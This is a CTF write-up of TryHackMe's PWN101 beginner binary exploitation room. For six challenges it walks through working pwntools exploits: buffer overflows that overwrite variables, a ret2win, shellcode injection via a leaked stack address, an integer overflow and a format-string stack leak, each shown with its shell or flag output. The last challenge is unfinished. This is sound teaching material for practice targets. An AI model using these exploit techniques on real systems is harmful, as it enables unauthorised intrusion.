

> Void XD


This is short writup for [PWN101](https://tryhackme.com/room/pwn101) (Beginner level binary exploitation challenges.) on [tryhackme](https://tryhackme.com)
Go check it out.


## Challenge 1 - pwn101

This should give you a start: 'AAAAAAAAAAA'

Challenge is running on port 9001

```bash
# Basic file check

file pwn101.pwn101 
pwn101.pwn101: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=dd42eee3cfdffb116dfdaa750dbe4cc8af68cf43, not stripped


checksec pwn101.pwn101 
[*] '/home/kali/TryHackMe/PWN101/chall1/pwn101.pwn101'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

chmod +x pwn101.pwn101

# Executing binary to find more

./pwn101.pwn101
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 
test
Nah bruh, you lied me :(
She did Tomato rice instead of briyani :/

So it needs some special input.
```

Using ghidra to get the source code




Here we can clearly see its checking if preset_value is 1337 if its not so we get shell.

So the objective is to rewrite preset_value to something other than 1337

As we are taking input from gets which is a dangerous function as it dosent limit in user input

Entering more characters than the input_buffer accepts will overwrite the preset_value.

Our exploit

```py
# simple pwntools script
from pwn import *

payload = b'A'*100

write("payload.txt",payload)

```

```bash
# Running the exploit
(cat payload.txt;cat) | nc 10.10.206.5 9001
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 101          

Hello!, I am going to shopping.
My mom told me to buy some ingredients.
Ummm.. But I have low memory capacity, So I forgot most of them.
Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

Type the required ingredients to make briyani: 

Thanks, Heres a small gift for you <3

ls
flag.txt
pwn101
pwn101.c
cat flag.txt
THM{fake_flag}   # get you own flag

```

## Challenge 2 - pwn102

The challenge is running on port 9002

```bash
# Basic file checks

file pwn102.pwn102 
pwn102.pwn102: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2612b87a7803e0a8af101dc39d860554c652d165, not stripped

checksec pwn102.pwn102 
[*] '/home/kali/TryHackMe/PWN101/chall2/pwn102.pwn102'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled


# Executing binary to get more info
./pwn102.pwn102 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? test
I'm feeling dead, coz you said I need bad food :(

```

Using ghidra again to decomplie the source code.


This time there are two preset value with value 0xbadf00d and 0xfee1dead we have to rewrite them to 0xc0ff33 and 0xc0d3
```bash
Using gdb to get the offset for these comparisions

┌──(kali㉿kali)-[~/TryHackMe/PWN101/chall2]
└─$ cyclic -l caab
108
                                                                                                                                                                                              

┌──(kali㉿kali)-[~/TryHackMe/PWN101/chall2]
└─$ cyclic -l baab
104
```

Our exploit
```py
# /chall2/get_shell.py
from pwn import *

exe = './pwn102.pwn102'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# rbp - 4 = 108
# rbp - 8 = 104

payload = b"\x90"*104 + p32(0xc0d3) + p32(0xc0ff33)

write("payload.txt",payload)

io = start()
io.sendline(payload)
io.interactive() 
```

```bash
python3 get_shell.py REMOTE 10.10.145.112 9002
[+] Opening connection to 10.10.145.112 on port 9002: Done
[*] Switching to interactive mode
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? Yes, I need c0ff33 to c0d3
$ ls
flag.txt
pwn102
pwn102.c
$ cat flag.txt
THM{fake_flag}   # get you own flag
```

##  Challenge 3 - pwn103

The challenge is running on port 9003

```bash
# basic file checks

file pwn103.pwn103                                   
pwn103.pwn103: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3df2200610f5e40aa42eadb73597910054cf4c9f, for GNU/Linux 3.2.0, not stripped


checksec pwn103.pwn103 
[*] '/home/kali/TryHackMe/PWN101/chall3/pwn103.pwn103'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

# Executing binary to get more info 

./pwn103.pwn103
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⡟⠁⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠈⢹⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⢠⣴⣾⣵⣶⣶⣾⣿⣦⡄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢀⣾⣿⣿⢿⣿⣿⣿⣿⣿⣿⡄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢸⣿⣿⣧⣀⣼⣿⣄⣠⣿⣿⣿⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠘⠻⢷⡯⠛⠛⠛⠛⢫⣿⠟⠛⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣧⡀⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢡⣀⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣆⣸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

  [THM Discord Server]

➖➖➖➖➖➖➖➖➖➖➖
1) 📢 Announcements
2) 📜 Rules
3) 🗣  General
4) 🏠 rooms discussion
5) 🤖 Bot commands
➖➖➖➖➖➖➖➖➖➖➖
⌨️  Choose the channel: 

# checking different options for finding vuln

Choose the channel: 3

🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope youre doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Try harder!!! 💪
zsh: segmentation fault  ./pwn103.pwn103

# overflow vuln detected here
```

Ghidra Analysis give these two important functions


```bash
# important function

0x0000000000401554  admins_only


pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa


RBP  0x6161616a61616169 ('iaaajaaa')
RSP  0x7fffffffde08 ◂— 'kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'

# finding the overflow offset
pwndbg> cyclic -l kaaa
40

```

Our Exploit
```py
# /chall3/get_shell.py
#!/usr/bin/env python3
from pwn import *

exe = './pwn103.pwn103'

elf = context.binary = ELF(exe,checksec=False)
# context.log_level=''

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
gdb
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 40
admins_only = 0x0000000000401554

payload=flat(asm("nop")*padding,0x401016,admins_only)

# adding a return gadget in between to fix movaps issue
# Thanks to Razvi for helping me to find this

write("payload.txt",payload)

print(io.recv().decode())
io.sendline('3')
print(io.recv().decode())
io.sendlineafter(b"[pwner]:",payload)
print(io.recv().decode())

io.interactive()

```

```bash
# Running the payload

python3 get_shell.py REMOTE 10.10.145.112 9003
[+] Opening connection to 10.10.145.112 on port 9003: Done
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⡟⠁⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠈⢹⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⢠⣴⣾⣵⣶⣶⣾⣿⣦⡄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢀⣾⣿⣿⢿⣿⣿⣿⣿⣿⣿⡄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢸⣿⣿⣧⣀⣼⣿⣄⣠⣿⣿⣿⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠘⠻⢷⡯⠛⠛⠛⠛⢫⣿⠟⠛⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣧⡀⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢡⣀⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣆⣸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

  [THM Discord Server]

➖➖➖➖➖➖➖➖➖➖➖
1) 📢 Announcements
2) 📜 Rules
3) 🗣  General
4) 🏠 rooms discussion
5) 🤖 Bot commands
➖➖➖➖➖➖➖➖➖➖➖
⌨️  Choose the channel: 
/home/kali/TryHackMe/PWN101/chall3/get_shell.py:47: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline('3')

🗣  General:

 
Try harder!!! 💪


👮  Admins only:

Welcome admin 😄

[*] Switching to interactive mode
$ ls
flag.txt
pwn103
pwn103.c
$ cat flag.txt
THM{fake_flag}   # get you own flag
```


## Challenge 4 - pwn104

Challenge is running on port 9004 

```bash
# Basic file check 

file pwn104.pwn104    
pwn104.pwn104: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60e0bab59b4e5412a1527ae562f5b8e58928a7cb, for GNU/Linux 3.2.0, not stripped

checksec pwn104.pwn104 
[*] '/home/kali/TryHackMe/PWN101/chall4/pwn104.pwn104'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

# Running the file for more info
./pwn104.pwn104 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7ffcb9eec270
test

```

Again ghidra for analysis


```bash
# finding the rip offset

RBP  0x6161617661616175 ('uaaavaaa')
RSP  0x7fffffffde28 ◂— 0x6161617861616177 ('waaaxaaa')

pwndbg> cyclic -l waaa
88

```

Our Exploit

```py
# /chall4/get_shell.py

#!/usr/bin/env python3
from pwn import *

exe = './pwn104.pwn104'

elf = context.binary = ELF(exe,checksec=False)
# context.log_level='debug'

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 88
shellcode = asm(shellcraft.sh())
shellcode += asm(shellcraft.exit())

print(io.recvuntil(b'at ').decode())

leaked_address = int(io.recvline(), 16)

info("leaked_address : %#x",leaked_address)

payload=flat(asm('nop')*padding,leaked_address+100,asm('nop')*40,shellcode)


write("payload.txt",payload)
io.sendline(payload)

io.interactive()

```


```bash
# Running the exploit

python3 get_shell.py REMOTE 10.10.145.112 9004
[+] Opening connection to 10.10.145.112 on port 9004: Done
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 
[*] leaked_address : 0x7ffd64d5ffd0
[*] Switching to interactive mode
$ ls
flag.txt
pwn104
pwn104.c
$ cat flag.txt
THM{fake_flag}   # get you own flag

```

## Challenge 5 - pwn105
The challenge is running on port 9005

```bash
# Basic file checks

file pwn105.pwn105    
pwn105.pwn105: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=efe6d094462867e6b08e74de43fb7126e7b14ee4, for GNU/Linux 3.2.0, not stripped

checksec pwn105.pwn105 
[*] '/home/kali/TryHackMe/PWN101/chall5/pwn105.pwn105'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

# Running Binary to get more info

./pwn105.pwn105 
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 4
]>> 5

[*] ADDING 4 + 5
[*] RESULT: 9

```

Ghidra analysis


So first it takes two inputs then check if the are +ve or not if they are not it tells you nice try else it will sum both the values and if the sum is less than 0 it pops a shell.

Simple integer overflow can be done here as we know interger has range (-2,147,483,647 to 2,147,483,647) if we give the highest value and add something to it, the sum will go to the opposite side that is -ve one.

lets try it out, it we enter 2147483647 and add 1 it theoretically it will become -2147483648

```bash
nc 10.10.145.112 9005                        
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2147483647
]>> 1

[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
ls
flag.txt
pwn105
pwn105.c
cat flag.txt
THM{fake_flag}   # get you own flag


```

## Challenge 6 - pwn106
The challenge is running on port 9006

```bash
# Basic file Checks

file pwn106user.pwn106-user 
pwn106user.pwn106-user: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=60a1dfa10c02bcc6d113cb752053893ac9e2f4f1, for GNU/Linux 3.2.0, not stripped

checksec pwn106user.pwn106-user 
[*] '/home/kali/TryHackMe/PWN101/chall6/pwn106user.pwn106-user'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

# Executing binary to get more info

./pwn106user.pwn106-user
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 107          

🎉 THM Giveaway 🎉

Enter your THM username to participate in the giveaway: void

Thanks void


```

Ghidra analysis


Here we can clearly see that it takes a input from us and then print it back to up ... but here's the twist as the programmer dosen't specify format specifier we can provide our own format specifier to leak values from the stack.

Our exploit
```py
# chall6/get_flag.py 
from pwn import *

context.log_level = 'info'

flag=""

# Lets fuzzx values
for i in range(6,12):
    try:
        # connect to server
        io = remote("10.10.145.112",9006,level='warn')
        # io=process('./vuln',level='warn')
        # Format the counter
        # e.g %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendline('%{}$p'.format(i).encode())
        # Recieve the response (leaked addresses followed by '.' in this case)
        io.recvuntil(b"Thanks ")
        result=io.recv()
        if not b'nil' in result:
            print(str(i) + ":" + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build the flag
                flag+=reversed_hex.decode()
            except BaseException:
                pass
        io.close()
    except EOFError:
        io.close()

info(flag)

```

```bash
python3 get_flag.py
6:b'0x5f5530797b4d4854\n'
b'THM{y0U_'
7:b'0x5f3368745f6e3077\n'
b'w0n_th3_'
8:b'0x5961774133766947\n'
b'Giv3AwaY'
9:b'0x3168745f446e615f\n'
b'_anD_th1'
10:b'0x756f595f73315f73\n'
b's_1s_You'
11:b'0x7d47346c665f52\n'
b'R_fl4G}'
[*] THM{fake_flag}   # get you own flag


```

## Challenge 7 - pwn107

The challenge is running on port 9007
```bash
# Basic file checks
file pwn107.pwn107         
pwn107.pwn107: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0579b2a29d47165653fbb791fb528c59e951a1a0, not stripped

checksec pwn107.pwn107         
[*] '/home/kali/TryHackMe/PWN101/chall7/pwn107.pwn107'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled


```

Comming soon...
